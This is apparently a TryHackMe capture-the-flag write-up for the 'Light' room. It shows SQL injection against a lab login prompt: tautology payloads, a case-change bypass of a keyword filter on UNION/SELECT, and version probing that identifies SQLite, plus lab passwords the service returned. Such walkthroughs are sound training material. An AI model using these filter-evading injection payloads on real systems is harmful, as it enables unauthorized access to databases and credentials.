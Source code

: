 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: 10.10.22.91

We connect with
``nc 10.10.22.91 1337``

and enter username smokey gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

# Findings
- We try some obious admin credentails, no luck.
- We hit it with a large username list, we get users like alice although no admin
- We hit with some SQL inject and find there is some custom filtering

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

Find some weakness in the filtering we remove -- to find it by-passes filter but we get an error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
Ahh get around the sytax error with
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

back to find SQL type

MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

SQLite
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```






What is the admin username?
What is the password to the username mentioned in question 1?
What is the flag?



